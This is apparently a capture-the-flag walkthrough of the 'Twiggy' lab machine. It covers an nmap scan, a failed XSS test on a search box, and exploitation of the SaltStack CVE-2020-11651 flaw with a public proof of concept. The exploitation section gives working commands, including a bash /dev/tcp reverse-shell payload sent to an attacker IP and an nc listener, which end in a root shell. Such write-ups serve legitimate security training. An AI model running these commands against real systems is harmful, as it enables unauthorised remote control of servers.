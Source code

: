 <h2>Recon</h2>

<h3>PortScanning</h3>

>command used:sudo nmap -A -T4 -p- -v

```
# Nmap 7.93 scan initiated Sat Jan  7 10:06:55 2023 as: nmap -A -v -T4 -p- -oN twiggy 192.168.242.62
Nmap scan report for 192.168.242.62
Host is up (0.44s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 447d1a569b68aef53bf6381773165d75 (RSA)
|   256 1c789d838152f4b01d8e3203cba61893 (ECDSA)
|_  256 08c912d97b9898c8b3997a19822ea3ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-favicon: Unknown favicon MD5: 11FB4799192313DD5474A343D9CC0A17
|_http-title: Home | Mezzanine
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: nginx/1.16.1
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (application/json).
|_http-server-header: nginx/1.16.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Linux 3.X|4.X|5.X (89%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4.4 cpe:/o:linux:linux_kernel:5.1
Aggressive OS guesses: Linux 3.10 - 3.12 (89%), Linux 4.4 (89%), Linux 4.9 (89%), Linux 3.10 - 3.16 (86%), Linux 3.10 - 4.11 (85%), Linux 3.11 - 4.1 (85%), Linux 3.2 - 4.9 (85%), Linux 5.1 (85%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.003 days (since Sat Jan  7 10:08:04 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   698.61 ms 192.168.49.1
2   698.68 ms 192.168.242.62

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan  7 10:12:07 2023 -- 1 IP address (1 host up) scanned in 312.17 seconds
```
From the scan above we have 6 opened ports. Port 22 which runs ssh, port 53 which runs domain, port 80,8000 which runs http, port 4505,4506 which runs zmtp. Our enumeration today will be focused more on the ports that runs the http service (port 80 and port 8000)



<h2>Enumeration Port 80</h2>

Going to the webpage you should see something like this

![image](https://user-images.githubusercontent.com/67879936/222254767-cb6402c0-737b-448a-a6d9-9f6af0fcad7d.png)

I went ahead to test the search button for xss by using a simple payload

payload:```<img src=x onerror=alert(1)>```

![image](https://user-images.githubusercontent.com/67879936/222255982-60c0769f-1e21-4120-b7a4-e704f342f405.png)

oops, it didn't work. After looking around for a while I didn't find anything useful. On to the next port



<h2>Enumeration Port 8000</h2>

Going to the webpage should get you this

![image](https://user-images.githubusercontent.com/67879936/222257048-1c38e203-3f35-4b45-a6e7-ad8d25713c12.png)

lets check the header of the webpage using curl

>command:curl -v http://192.168.123.62:8000/

![image](https://user-images.githubusercontent.com/67879936/222257584-b91c54ab-2c73-48de-84e5-52e557a7fc2c.png)

Lets check if there's an exploit for this salt-api/3000-1

![image](https://user-images.githubusercontent.com/67879936/222259122-1681c469-29d1-469c-8d98-ac5a2ac8031b.png)

Yup, we sure found an exploit. Lets go ahead and exploit this vulnerability hehe



<h2>Exploitation</h2>

>Link to Exploit:https://github.com/jasperla/CVE-2020-11651-poc

To use this exploit, follow these steps

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/Twiggy]
└─$ git clone https://github.com/jasperla/CVE-2020-11651-poc
Cloning into 'CVE-2020-11651-poc'...
remote: Enumerating objects: 30, done.
remote: Counting objects: 100% (30/30), done.
remote: Compressing objects: 100% (20/20), done.
remote: Total 30 (delta 12), reused 26 (delta 10), pack-reused 0
Receiving objects: 100% (30/30), 8.61 KiB | 881.00 KiB/s, done.
Resolving deltas: 100% (12/12), done.
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/Twiggy]
└─$ cd CVE-2020-11651-poc 
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/…/PG/pg_practice/Twiggy/CVE-2020-11651-poc]
└─$ sudo pip3 install salt                            
[sudo] password for bl4ck4non: 
Requirement already satisfied: salt in /usr/local/lib/python3.11/dist-packages (3005.1)
Requirement already satisfied: Jinja2 in /usr/lib/python3/dist-packages (from salt) (3.0.3)
Requirement already satisfied: jmespath in /usr/local/lib/python3.11/dist-packages (from salt) (1.0.1)
Requirement already satisfied: msgpack!=0.5.5,>=0.5 in /usr/lib/python3/dist-packages (from salt) (1.0.3)
Requirement already satisfied: PyYAML in /usr/lib/python3/dist-packages (from salt) (6.0)
Requirement already satisfied: MarkupSafe in /usr/lib/python3/dist-packages (from salt) (2.1.1)
Requirement already satisfied: requests>=1.0.0 in /usr/lib/python3/dist-packages (from salt) (2.28.1)
Requirement already satisfied: distro>=1.0.1 in /usr/lib/python3/dist-packages (from salt) (1.8.0)
Requirement already satisfied: contextvars in /usr/local/lib/python3.11/dist-packages (from salt) (2.4)
Requirement already satisfied: psutil>=5.0.0 in /usr/local/lib/python3.11/dist-packages (from salt) (5.9.4)
Requirement already satisfied: pyzmq<=20.0.0 in /usr/local/lib/python3.11/dist-packages (from salt) (20.0.0)
Requirement already satisfied: pycryptodomex>=3.9.8 in /usr/lib/python3/dist-packages (from salt) (3.11.0)
Requirement already satisfied: immutables>=0.9 in /usr/local/lib/python3.11/dist-packages (from contextvars->salt) (0.19)
WARNING: Running pip as the 'root' user can result in broken permissions and conflicting behaviour with the system package manager. It is recommended to use a virtual environment instead: https://pip.pypa.io/warnings/venv
```
if you've done this. We can go ahead and run the exploit
bash -i >& /dev/tcp/192.168.49.123/80 0>&1
>command:python3 exploit.py --master 192.168.123.62  --exec "whoami"

![image](https://user-images.githubusercontent.com/67879936/222260340-916d298b-074f-4655-8d2c-207b0e3ae591.png)

Nice, we got the "whoami" command to run successfully. Now, lets use a reverse shell so we can get a shell back to our machine.

As usual we'll be using 2 different terminals

>payload:bash -i >& /dev/tcp/192.168.49.123/80 0>&1

>command terminal 1:python3 exploit.py --master 192.168.123.62  --exec "bash -i >& /dev/tcp/192.168.49.123/80 0>&1"

>command terminal 2:rlwrap nc -lvnp 80

![image](https://user-images.githubusercontent.com/67879936/222261192-359a5737-dffb-4837-9fa3-197015926e88.png)

![image](https://user-images.githubusercontent.com/67879936/222261310-1dc9bd58-fa0e-4d50-b908-2051ccaecd17.png)

Boom!!! We got a shell as root user

That will be all for today
























































